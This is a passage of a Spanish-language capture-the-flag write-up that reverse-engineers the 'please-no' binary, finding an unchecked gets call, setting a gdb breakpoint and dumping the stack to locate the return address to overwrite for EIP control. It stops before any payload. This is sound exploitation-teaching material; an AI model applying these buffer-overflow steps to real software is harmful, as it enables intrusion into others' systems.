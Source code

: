 Como no podemos usar la pila para ejecutar un shellcode (NX enabled), echemos un vistazo al código:
```
objdump -D intel -S please-no
```
No tenemos una clásica función main, parece que nuestras funciones están escondidas en la sección .text. Si lo analizamos con radare2 sí nos detecta la función main:
```
main ();
; var int local_8h @ esp+0x8
; DATA XREF from 0x08048497 (entry0)
0x08048710	; sub esp, 0x1c
0x08048713	; lea eax, dword [esp + local_8h]
0x08048717	; mov dword [esp], eax
0x0804871a	; call sym.imp.gets
0x0804871f	; xor eax, eax
0x08048721	; add esp, 0x1c
0x08048724	ret<br>
```
Se puede ver claramente una llamada a la función gets (call sym.imp.gets).
```
080483f0 <gets@plt>:
80483f0:	ff 25 10 a0 04 08	jmp	DWORD PTR ds:0x804a010
80483f6:	68 08 00 00 00		push	0x8
80483fb:	e9 d0 ff ff ff		jmp	80483d
```
También hay otras funciones interesantes:
```
08048410 <strcat@plt>:
8048410:	ff 25 18 a0 04 08	jmp	DWORD PTR ds:0x804a018
8048416:	68 18 00 00 00		push	0x18
804841b:	e9 b0 ff ff ff		jmp	80483d0 <printf@plt-0x10>

08048440 <fopen@plt>:
8048440:	ff 25 24 a0 04 08	jmp	DWORD PTR ds:0x804a024
8048446:	68 30 00 00 00		push	0x30
804844b:	e9 80 ff ff ff		jmp	80483d0 <printf@plt-0x10>
```
Vemos que hay una línea en .text que llama a gets, este puede ser un buen sitio para poner un breakpoint.
```
804871a:	e8 d1 fc ff ff		call	80483f0 <gets@plt>
804871f:	31 c0			xor	eax,eax
8048721:	83 c4 1c		add	esp,0x1c
8048724:	c3			ret
```
```
>>> br *0x804871f
Breakpoint 1 at 0x804871f
```
```
python -c "print 'A'*20"
AAAAAAAAAAAAAAAAAAAA
```
Ejecutamos el programa y vemos el estado de la pila después de meter 20 "A":
```
>>> r
Starting program: /root/Documents/3DSCTF/please-no 
AAAAAAAAAAAAAAAAAAAA
Breakpoint 1, 0x0804871f in ?? ()
>>> x/32xw $esp
0xbffff350	0xbffff358	0x0804824c	0x41414141	0x41414141
0xbffff360	0x41414141	0x41414141	0x41414141	0xb7e13200 <--
0xbffff370	0x00000001	0xbffff404	0xbffff40c	0x00000000
```
La flecha, que corresponde con la posición de la pila 0xbffff36c, indica el valor que tendremos que sobrescribir para controlar el EIP.